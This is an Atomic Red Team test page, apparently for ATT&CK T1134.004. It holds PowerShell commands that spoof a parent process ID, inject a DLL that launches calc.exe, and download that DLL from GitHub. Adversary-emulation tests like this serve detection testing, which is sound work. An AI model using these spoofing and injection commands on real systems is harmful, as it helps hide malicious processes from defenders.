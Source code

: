 
<br/>

## Atomic Test #1 - Parent PID Spoofing using PowerShell
This test uses PowerShell to replicates how Cobalt Strike does ppid spoofing and masquerade a spawned process.
Upon execution, "Process C:\Program Files\Internet Explorer\iexplore.exe is spawned with pid ####" will be displayed and
calc.exe will be launched.

Credit to In Ming Loh (https://github.com/countercept/ppid-spoofing/blob/master/PPID-Spoof.ps1)

**Supported Platforms:** Windows


**auto_generated_guid:** 069258f4-2162-46e9-9a25-c9c6c56150d2





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| parent_process_name | Name of the parent process | string | explorer|
| spawnto_process_path | Path of the process to spawn | path | C:&#92;Program Files&#92;Internet Explorer&#92;iexplore.exe|
| dll_process_name | Name of the created process from the injected dll | string | calculator|
| dll_path | Path of the dll to inject | path | PathToAtomicsFolder&#92;T1134.004&#92;bin&#92;calc.dll|
| spawnto_process_name | Name of the process to spawn | string | iexplore|


#### Attack Commands: Run with `powershell`! 


```powershell
. "$PathToAtomicsFolder\T1134.004\src\PPID-Spoof.ps1"
$ppid=Get-Process #{parent_process_name} | select -expand id
PPID-Spoof -ppid $ppid -spawnto "#{spawnto_process_path}" -dllpath "#{dll_path}"
```

#### Cleanup Commands:
```powershell
Stop-Process -Name "#{dll_process_name}" -ErrorAction Ignore
Stop-Process -Name "#{spawnto_process_name}" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: DLL to inject must exist on disk at specified location (#{dll_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{dll_path}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1134.004/bin/calc.dll" -OutFile "#{dll_path}"
```
##### Description: PPID.ps1 must exist on disk at $PathToAtomicsFolder\T1134.004\src\PPID-Spoof.ps1
##### Check Prereq Commands:
```powershell
if (Test-Path "$PathToAtomicsFolder\T1134.004\src\PPID-Spoof.ps1") {exit 0} else {exit 1}
```